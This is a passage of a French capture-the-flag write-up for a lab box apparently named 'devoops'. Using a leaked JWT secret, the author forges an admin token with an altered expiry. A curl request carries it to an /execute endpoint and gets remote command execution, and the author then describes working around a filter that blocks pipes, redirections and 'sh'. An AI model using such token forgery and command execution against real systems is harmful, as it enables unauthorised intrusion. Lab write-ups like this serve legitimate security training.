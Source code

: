 ```
EINFO_LASTCMD=ebegin
npm_package_name=devoops
NODE=/usr/bin/node
npm_config_frozen_lockfile=
npm_lifecycle_script=nodemon
npm_package_version=0.0.0
npm_lifecycle_event=dev
npm_config_verify_deps_before_run=false
NODE_PATH=/opt/node/node_modules/.pnpm/vite@6.2.0/node_modules/vite/bin/node_modules:/opt/node/node_modules/.pnpm/vite@6.2.0/node_modules/vite/node_modules:/opt/node/node_modules/.pnpm/vite@6.2.0/node_modules:/opt/node/node_modules/.pnpm/node_modules:/opt/node/node_modules/.pnpm/concurrently@9.1.2/node_modules/concurrently/dist/bin/node_modules:/opt/node/node_modules/.pnpm/concurrently@9.1.2/node_modules/concurrently/dist/node_modules:/opt/node/node_modules/.pnpm/concurrently@9.1.2/node_modules/concurrently/node_modules:/opt/node/node_modules/.pnpm/concurrently@9.1.2/node_modules:/opt/node/node_modules/.pnpm/node_modules:/opt/node/node_modules/.pnpm/nodemon@3.1.9/node_modules/nodemon/bin/node_modules:/opt/node/node_modules/.pnpm/nodemon@3.1.9/node_modules/nodemon/node_modules:/opt/node/node_modules/.pnpm/nodemon@3.1.9/node_modules:/opt/node/node_modules/.pnpm/node_modules
PWD=/opt/node
npm_execpath=/usr/local/lib/node_modules/pnpm/bin/pnpm.cjs
npm_command=run-script
PNPM_SCRIPT_SRC_DIR=/opt/node
INIT_CWD=/opt/node
```

Désormais avec le `JWT_SECRET` je peux forger un token valide et accéder à `/execute`. J'ai dû changer la date d'expiration (`exp`) du token à demain pour qu'il soit accepté.

### With a cup of tea

```console
$ curl "http://192.168.56.106:3000/execute?cmd=id" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOi0xLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTgwMjA1ODMsImV4cCI6MTc0OTY1MzMwMn0.7fTcfCHHH1xeqFoFS6zwMgzf6yBzE45p1IlW8xb56_g"
{"status":"executed","data":{"stdout":"uid=1000(runner) gid=1000(runner) groups=1000(runner)\n","stderr":""}}
```

Comme vous avez pu le voir plus tôt dans les secrets dumpés, l'endpoint a un filtre sur ce qu'il est possible de passer comme commandes. Sans redirections, pipe et commandes contenant `sh` on est vite limités et ça a été compliqué d'avoir un shell interactif.

S'ajoute à celà d'autres difficultés :

- L'utilisateur `runner` n'ayant pas de dossier personnel spécifié dans `/etc/passwd` on ne pourra pas passer par SSH qui va chercher les clés dans le dossier personnel (il faut aussi forwarder le port 22).

- bash est absent du système

Avant d'aller plus loin et puisque `ls` est blacklisté aussi, j'ai utilisé `stat` sur le dossier courant :

```
Access: (0770/drwxrwx---)  Uid: (    0/    root)   Gid: ( 1000/  runner)
```

